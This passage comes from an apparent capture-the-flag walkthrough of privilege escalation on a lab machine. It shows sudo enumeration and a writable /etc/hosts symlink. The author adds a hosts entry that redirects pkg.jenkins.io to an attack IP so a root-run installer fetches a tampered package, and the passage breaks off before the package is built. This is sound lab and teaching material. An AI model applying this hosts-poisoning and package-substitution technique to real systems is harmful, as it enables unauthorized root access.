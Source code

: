 ![evidence](./static/21-censored-userflag.png)

## Privilege escalation

When I start exploring the server with the user `leeroy`, and I check the `sudo` privileges:
```shell
$ leeroy@leeroy:~$ sudo -l
...SNIPPED...
User leeroy may run the following commands on leeroy:
    (ALL) /usr/share/jenkins/jenkins_installer
```
When I check the file `jenkins_installer`:
```shell
$ leeroy@leeroy:~$ cat /usr/share/jenkins/jenkins_installer
...SNIPPED...
wget https://pkg.jenkins.io/debian-stable/binary/jenkins_2.222.3_all.deb \
   -O $1 --no-check-certificate
sudo sh -c 'echo deb http://pkg.jenkins.io/debian-stable binary/ > \
   /etc/apt/sources.list.d/jenkins.list'
sudo apt-get update
sudo apt-get install jenkins
```
Then I think I could add my `IP` to download the `deb` file, and that way the script installs my malicious code instead of `Jenkins`. but I need a series of conditions to be met, and I need to be able to modify the `/etc/hosts` file, and I need to configure an `HTTPS` service on my attack machine. When I check the `/etc/hosts` file:
```shell
$ leeroy@leeroy:~$ ls -la /etc/hosts
lrwxrwxrwx 1 root root 22 May  9  2020 /etc/hosts -> /var/lib/jenkins/hosts
```
Then it looks like the user `jenkins` can modify it. When I check the permissions of the file `/var/lib/jenkins/hosts`, then I get the output:
```shell
-rw-r--r-- 1 jenkins jenkins 175 May 11  2020 /var/lib/jenkins/host
```
And I can modify the file with the user `jenkins`:
```shell
$ jenkins@leeroy:~$ echo "192.168.56.101 pkg.jenkins.io" | \
> tee -a /var/lib/jenkins/hosts
```
And now, I need to understand how to create a `Debian` package, when I search in DuckDuckGo `create a .deb file`, then I find  [Create debian package](https://www.baeldung.com/linux/create-debian-package),  and I think that maybe it is easier for me to modify the `Jenkins deb` file. When I download the `jenkins_2.222.3_all.deb` package: